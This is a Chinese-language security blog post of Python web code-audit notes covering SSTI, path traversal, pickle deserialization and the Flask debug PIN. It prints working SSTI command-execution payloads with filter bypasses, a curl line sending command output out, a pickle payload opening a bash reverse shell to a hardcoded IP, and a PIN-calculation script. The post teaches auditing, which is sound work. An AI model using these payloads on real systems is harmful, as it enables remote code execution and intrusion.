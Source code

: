 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Python 代码审计与安全编码 # 标题
subtitle:   日就完事了               #副标题
date:       2018-08-08              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
---
```


# Python 代码审计与安全编码

- Python 应用框架
  - Django
  - Flask
  - Tornado
  - Web.py

## Python Web 漏洞距举例

- Django debug page XSS 漏洞
- Django 1.6 版本前 seesion 反序列化任意代码执行
  - Django 1.6 以下，session 默认采用 picked
- ...

### Python(不单单是 Python) 的 Web 应用可能存在哪些问题？

- SQl 注入
- 模板注入 SSTI
- 格式化字符串
- 客户端 SESSION
- 路径穿越
- 反序列化
- Flask Debug Pin 码存在的安全风险

### Web 通用漏洞 在 Python

- Sql 注入
- XSS
- CSRF

- XXE
  - Python 解析 XML 存在 XXE 的函数： lxml 模块
  - 原因： libxml 2.9 以下默认导入外部实体， lxml 中默认
- SSRF
  - 重定向
    - pycurl 默认不跟随重定向， urllib/requests 跟随
  - 协议支持
    - urllib/urllib2/requests -> http/https/ftp
    - pycurl 一般都支持

## SSTI

- What is SSTI?
  - 服务器模板注入和常见的 Web 注入的成因一样，也是服务端接受了
- 从 MVC 开发模式说起
  - Model View Controller
- 模板注入是 Model 被用户控制
- 注入代码

```py

# 未过滤
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('ls').read()

# 过滤中括号[]
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

# 过滤引号''""
#  先获取 chr 函数，赋值给 chr， 后面拼接字符串
{% set chr=().__class__.bases__.getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__chr %}{{
  ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linescache.os.popen(chr(105)%2bchr(100)).read()
}}
# 借助 request 对象
{{
  ().__class__.bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() 
}}&cmd=id

# 过滤双下划线__
{{
  ''[request.args.class][request.args.mro][2][request.args.sbclasses]()[40]('etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__


# 过滤双大括号{{}}
{
  % if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://localhost?i=`whoami`').read()=='p' %
  }1{% endif %}

```

## 格式化字符串

![](https://github.com/Chris-Ju/Picture/blob/master/python%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E.png?raw=true)

## 客户端 SESSION

- Tornado session 格式(六部分)
  - 版本号
  - len(value) : value
  - key_version
  - 时间戳
  - cookie 的键
  - cookie 的值 (base64)
  - signature 的值

## 路径穿越

```py
@users.route('/asserts/<path:path>')
def static_handler(path):
  filename = os.path.join(app.root_path,'asserts',path)
  if os.path.isfile(filename):
      return send_file(filename)
  else:
      abort(404)

# curl localhost:8080/assert/..%2fuser.py
```

- 如何修复
  - os.path.join 换成 flask 提供的 safe_join
  - 过滤
  - 使用 static 目录存放静态文件

## 反序列化

```py
import os
import pickle

class test(object):
  def __reduce__(self):
    code='bash -c "bash -i >& /dev/tcp/118.89.20.188/12345 0<&1 2>&1"'
    return (os.system, (code,))
print pickle.dump(test())
```

- 其他序列化函数
  - yaml
  - shelve

## Flask Debug Pin

```py
  md5_list = [
    'root', #当前用户，可通过读取 /ect/passwd 获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    'usr/local/lib/python2.7/dist-packages/flask/app.pyc',#可通过debug错误页面获取
    'mac地址十进制', #通过读取/sys/class/net/eth0/address获取，如果不是映射端口，可以通过 arp ip命令获取
    '机器名' #通过读取/etc/machine-id(常为空) 或 /proc/sys/kernel/random/boot_id 获取
  ]
```

- 计算 pin 码

```py
# -*- coding:utf-8 -*-
import hashlib

def get_pin(md5_list):
  h = hashlib.md5()
  for bit in md5_list:
    if not bit:
      continue
    if isinstance(bit, unicode):
      bit = bit.encode('utf-8')
    h.update(bit)
  h.update(b'cookiesalt')
  h.update(b'pinsalt')
  num = ('%09d' % int(h.hexdigest(), 16))[:9]
  for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
      rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
        for x in range(0, len(num), group_size))
      break
  else:
    rv = num
  return rv
```